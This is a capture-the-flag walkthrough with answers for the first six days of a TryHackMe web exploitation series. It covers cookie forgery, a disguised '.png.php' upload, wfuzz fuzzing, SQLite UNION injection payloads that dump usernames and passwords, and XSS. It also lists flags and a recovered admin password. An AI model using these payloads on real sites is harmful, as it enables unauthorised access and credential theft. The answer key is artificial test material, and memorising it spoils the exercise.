


# [Day 1] Web Exploitation A Christmas Crisis
What is the name of the cookie used for authentication?

```auth```

In what format is the value of this cookie encoded?

```Hexadecimal```

Having decoded the cookie, what format is the data stored in?

```JSON```

What is the value of Santa's cookie?

```7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d```

What is the flag you're given when the line is fully active?

```THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}```

# [Day 2] Web Exploitation The Elf Strikes Back!
What string of text needs adding to the URL to get access to the upload page?

```?id=ODIzODI5MTNiYmYw```

What type of file is accepted by the site?

```Image```

In which directory are the uploaded files stored?

```/uploads/```

What is the flag in /var/www/flag.txt?

Payload: ./payload.png.php

```THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}```

# [Day 3] Web Exploitation Christmas Chaos

What is the flag?

```THM{885ffab980e049847516f9d8fe99ad1a}```

# [Day 4] Web Exploitation Santa's watching

Given the URL "http://shibes.xyz/api.php", what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)

```wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ```

Use GoBuster (against the target you deployed -- not the shibes.xyz domain) to find the API directory. What file is there?

```site-log.php```

Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?

```THM{D4t3_AP1}```

# [Day 5] Web Exploitation Someone stole Santa's gift list!

Without using directory brute forcing, what's Santa's secret login panel?

```/santapanel```

First of all, try payload is ```' union select 1,2--```, we can see two columns in this database. So it is SQLi union base
Next step, we should determine what type of database and i know it is SQLite since i try payload ```' union select 1, sqlite_version()--``` then i see version of database. Next step is demtermine tables in this database. My payload is ```'UNION SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--```. As can we seen, there are 3 tables in this databases. Let's look for password for admin user. 



Because database have a table name 'users', reading entries is quite easy. My payload ```' UNION SELECT 1, group_concat(username || "," || password) from users--```



Let's look for flag. There is a table name hidden_table which contain flag. I use thi payload to know 

```'UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hidden_table'--```

To read flag try payload: ```'UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hidden_table'--```

Another way, you can use SQLmap

How many entries are there in the gift database?

```22```

What did Paul ask for?

```Github Ownership```

What is the flag?

```thmfox{All_I_Want_for_Christmas_Is_You}```

What is admin's password?

```EhCNSWzzFP6sc7gB```

# [Day 6] Web Exploitation Be careful with what you wish on a Christmas night

What vulnerability type was used to exploit the application?

```Stored cross-site scripting```

What query string can be abused to craft a reflected XSS?

```q```

Run a ZAP (zaproxy) automated scan on the target. How many XSS alerts are in the scan?

```2```


